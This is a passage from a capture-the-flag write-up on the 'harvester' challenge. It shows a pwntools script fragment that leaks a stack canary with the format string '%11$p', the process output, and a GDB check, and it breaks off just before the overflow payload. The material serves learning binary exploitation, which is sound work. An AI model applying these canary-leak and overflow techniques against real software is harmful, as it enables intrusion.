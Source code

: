 ```
b' \xf0\x9f\x8f\x83\n> \x1b[1;36m\nYou try to find its weakness, but it seems invincible..\nLooking around, you see something inside a bush.\x1b[1;32m\n[+] You found 1 \xf0\x9f\xa5\xa7!\n\x1b[1;32m\nYou also notice that if the Harvester eats too many pies, it falls asleep.\nDo you want to feed it?'
[*] Switching to interactive mode

> 
This did not work as planned..
*** stack smashing detected ***: <unknown> terminated
[*] Got EOF while reading in interactive
```
We hit the canary. So, we need to return to the format string vulnerability. The fight() function also has a canary, which should be the same as that for stare(), so we should be able to obtain the value of the canary by leaking stack values. With format strings, you can leak the ith element on the stack using the format '%i$p', so we can work with our limited input length by simply iterating up on i until we hit the canary. The relevant portion of script is here:

```
print(target.recvuntil(b'[4] Run'))
target.sendline(b'1')

print(target.recvuntil(b'[4]'))
target.sendline(b'%11$p')

print(target.recvuntil(b'Your choice is: '))
result = target.recvuntil(b'You are')
canary_string = result.replace(b'\x1b[1;31m\nYou are', b'')
canary_num = int(canary_string, 16)
print('Canary is', hex(canary_num))

canary = p64(canary_num)
```
And the terminal results are:
```
ubuntu@ubuntu1804:~/CTF/HTBApocalypse/harvester$ python3 harvester_writeup.py
[+] Starting local process './harvester': pid 6605
[*] running in new terminal: /usr/bin/gdb -q  "./harvester" 6605 -x /tmp/pwnki_aykml.gdb
[-] Waiting for debugger: debugger exited! (maybe check /proc/sys/kernel/yama/ptrace_scope)
[*] '/home/ubuntu/CTF/HTBApocalypse/harvester/harvester'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/ubuntu/CTF/HTBApocalypse/harvester/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'\x1b[1;36m\nA wild Harvester appeared \xf0\x9f\x90\xa6\n\x1b[1;31m\x1b[1;32m\nOptions:\n\n[1] Fight \xf0\x9f\x91\x8a\t[2] Inventory \xf0\x9f\x8e\x92\n[3] Stare \xf0\x9f\x91\x80\t[4] Run'
b' \xf0\x9f\x8f\x83\n> \x1b[1;36m\nChoose weapon:\n\n[1] \xf0\x9f\x97\xa1\t\t[2] \xf0\x9f\x92\xa3\n[3] \xf0\x9f\x8f\xb9\t\t[4]'
b' \xf0\x9f\x94\xab\n> \nYour choice is: '
Canary is 0xcc641c72ef4f4000

```
You can confirm that it's the canary by looking at the GDB and viewing the contents for rbp-8 at an appropriate breakpoint.
```
gef➤  x/gx $rbp-8
0x7ffc6d9d2f18:	0xcc641c72ef4f4000
```
We can now send payloads by using padding that looks like:
```
```